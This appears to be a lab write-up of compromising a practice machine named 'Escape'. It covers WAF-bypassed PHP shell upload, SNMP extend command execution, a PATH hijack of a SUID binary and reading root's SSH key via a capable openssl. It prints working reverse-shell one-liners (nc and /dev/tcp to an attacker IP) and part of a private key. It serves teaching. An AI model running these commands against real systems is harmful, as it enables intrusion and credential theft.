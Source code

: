 # Escape

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.113
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 16:01 +08
Nmap scan report for 192.168.157.113
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

### Web Enumeration -> File Upload

Visiting both the websites shows nothing. The page source just shows this:

```markup
<html>
<head>

<style type="text/css">
 <!--
 body {
  background-image: url(jail.jpg);
 }
 ->
</style>

<title>Escape</title>
</head>
<body>
</body>
</html>
```

I ran a `feroxbuster` on both, and found a `/dev` endpoint on port 8080.

```
$ feroxbuster -u http://192.168.157.113:8080
[>-------------------] - 2s        89/30000   42/s    http://192.168.157.113:8080/dev 
[--------------------] - 0s         0/30000   0/s     http://192.168.157.113:8080/dev/uploads
```

<figure><img src="../../../.gitbook/assets/image (3736).png" alt=""><figcaption></figcaption></figure>

This was a PHP page, so uploading PHP reverse shells is the priority, and there's a pretty good WAF. I tested loads of method of bypassing it, and this machine requires a combination of quite a few.&#x20;

<figure><img src="../../../.gitbook/assets/image (3731).png" alt=""><figcaption></figcaption></figure>

* File Header Spoofing
* Double File Extension
* Content-Type Spoofing

We can get a reverse shell by loading the uploaded file:

<figure><img src="../../../.gitbook/assets/image (2855).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SNMP -> Docker Escape

We spawned in a Docker container. The `/var/backups` folder contained a `.conf` file for SNMP:

```
www-data@a7c367c2113d:/var/backups$ ls -la
total 20
drwxr-xr-x 1 root root 4096 Dec 21  2020 .
drwxr-xr-x 1 root root 4096 Nov 18  2020 ..
-rwxr--r-- 1 root root 7340 Dec  9  2020 .snmpd.conf
```

Here are the interesting bits:

```
###############################################################################
#
#  ACCESS CONTROL
#

                                                 #  system + hrSystem groups only
view   systemonly  included   .1.3.6.1.2.1.1
view   systemonly  included   .1.3.6.1.2.1.25.1

                                                 #  Full access from the local host
#rocommunity public  localhost
                                                 #  Default access to basic system info
 rocommunity public  default    -V systemonly
                                                 #  rocommunity6 is for IPv6
 rocommunity6 public  default   -V systemonly

 rocommunity 53cur3M0NiT0riNg
 
<TRUNCATED>
 extend    test1   /bin/echo  Hello, world!
 extend-sh test2   echo Hello, world! ; echo Hi there ; exit 35
 extend-sh test3   /bin/sh /tmp/shtest
<TRUNCATED>
```

Firstly, we have the password string required. Next, we have some sort of script execution within the machine. We can put a reverse shell there instead.&#x20;

```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.227 21 >/tmp/f
```

Then, transfer this using `curl` and `chmod 777` it. To execute the shell, run this:

```bash
$ snmpbulkwalk -c 53cur3M0NiT0riNg -v2c 192.168.157.113 NET-SNMP-EXTEND-MIB::nsExtendOutputFull
```

<figure><img src="../../../.gitbook/assets/image (3465).png" alt=""><figcaption></figcaption></figure>

### LogRotate SUID -> PATH Hijack

I checked for SUID binaries present within this machine:

```
Debian-snmp@escape:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/logconsole
```

`logconsole` was the one I didn't recognise.&#x20;

```
Debian-snmp@escape:/$ file /usr/bin/logconsole                                               
/usr/bin/logconsole: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d3102ed1d950486fed01c5ad8915511a12aea52d, for GNU/Linux 3.2.0, not stripped                                             
Debian-snmp@escape:/$ /usr/bin/logconsole --version                                          
                                                                                             
                                                                                             
 /$$                                                                       /$$               
| $$                                                                      | $$               
| $$  /$$$$$$   /$$$$$$   /$$$$$$$  /$$$$$$  /$$$$$$$   /$$$$$$$  /$$$$$$ | $$  /$$$$$$      
| $$ /$$__  $$ /$$__  $$ /$$_____/ /$$__  $$| $$__  $$ /$$_____/ /$$__  $$| $$ /$$__  $$     
| $$| $$  \ $$| $$  \ $$| $$      | $$  \ $$| $$  \ $$|  $$$$$$ | $$  \ $$| $$| $$$$$$$$     
| $$| $$  | $$| $$  | $$| $$      | $$  | $$| $$  | $$ \____  $$| $$  | $$| $$| $$_____/     
| $$|  $$$$$$/|  $$$$$$$|  $$$$$$$|  $$$$$$/| $$  | $$ /$$$$$$$/|  $$$$$$/| $$|  $$$$$$$     
|__/ \______/  \____  $$ \_______/ \______/ |__/  |__/|_______/  \______/ |__/ \_______/     
               /$$  \ $$                                                                     
              |  $$$$$$/                                                                     
               \______/                                                                      
                                                                                             
                                                                                                                                                                                          
1. About the Sytem                                                                           
2. Current Process Status                                                                    
3. List all the Users Logged in and out                                                      
4. Quick summary of User Logged in                                                           
5. IP Routing Table                                                                          
6. CPU Information                                                                           
7. To Exit                                                                                   
99. Generate the Report                                                                      
                                                                                             
Enter the option ==> 
```

It seems like a custom binary. As such, I ran it through `ltrace` to see what it was executing with each option.

```
__isoc99_scanf(0x56520b53f5c6, 0x7ffe428ae678, 0x7f317a52b8c0, 02                            
) = 1                                                                                        
printf("\033[0m")                                = 4                                         
putchar(10, 0x7ffe428abfd0, 0x56520b53f650, 0
)   = 10
system("/bin/ps aux"USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.1  0.8 159660  8976 ?        Ss   03:58   0:01 /sbin/init
```

it's executing `system` calls for each option. When I checked the last option, it runs `lscpu` without the full path:

```
__isoc99_scanf(0x56520b53f5c6, 0x7ffe428ae678, 0x7f317a52b8c0, 06                            
) = 1                                                                                        
printf("\033[0m")                                = 4                                         
putchar(10, 0x7ffe428abfd0, 0x56520b53f650, 0
)   = 10
system("lscpu"Architecture:        x86_64
```

This means we can create our own `lscpu` binary to run.&#x20;

```
$ cat lscpu 
bash -c 'bash -i >& /dev/tcp/192.168.45.227/443 0>&1'
```

Then, place this within `/tmp` and `chmod 777` it. Afterwards, change the PATH variable and run the `logconsole` binary to check for CPU information.

```bash
export PATH=/tmp:$PATH
```

<figure><img src="../../../.gitbook/assets/image (3579).png" alt=""><figcaption></figcaption></figure>

### OpenSSL -> File Read

Within the `/opt` directory, there's an `openssl` binary that only `tom` can execute:

```
tom@escape:/opt/cert$ ls -la
total 724
drwxr-xr-x 2 root root   4096 Dec  9  2020 .
drwxr-xr-x 4 root root   4096 Dec  9  2020 ..
-rwx------ 1 root root   1245 Dec  9  2020 certificate.pem
-rwx------ 1 root root   1704 Dec  9  2020 key.pem
-rwxr-x--- 1 tom  tom  723944 Dec  9  2020 openssl
```

We are also given some certs and keys. I first checked this `openssl` binary using `getcap`, finding that it has all capabilities enabled, meaning that we can read any file:

```
tom@escape:/dev/shm$ getcap /opt/cert/openssl
/opt/cert/openssl =ep
```

We can then use this to read the private SSH key of `root`:

```
tom@escape:/dev/shm$ /opt/cert/openssl enc -in "/root/.ssh/id_rsa"
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAwwvvVIS3//uz+Mpg24l51p48akveZgI8bDQDun7y9BKhRDWg
GzIzCpt7NcVWVN2llo9KOL3c3EZZxGOaTbzpINZxSWj3/WWBYhNqmKQRsgJzbPv2
kOe/XwWw8Bt9TuFAd7GUbylpbyHOES7siXFUd/XP503ehllp/JFp0G+2YPkYPGbi
0EISJcNFPNnRlXIQs3Fte0QqFiPE9nPycSMqvGz8a9OtaPGlmOZ3wP56jxxIBT0I
SrkfuLGw7b9VN05jJ33EMtDGRyyDLljFXv7t5OktkC0omumXyWG2KRRe3Avn4RMI
<TRUNCATED>
```

<figure><img src="../../../.gitbook/assets/image (1292).png" alt=""><figcaption></figcaption></figure>

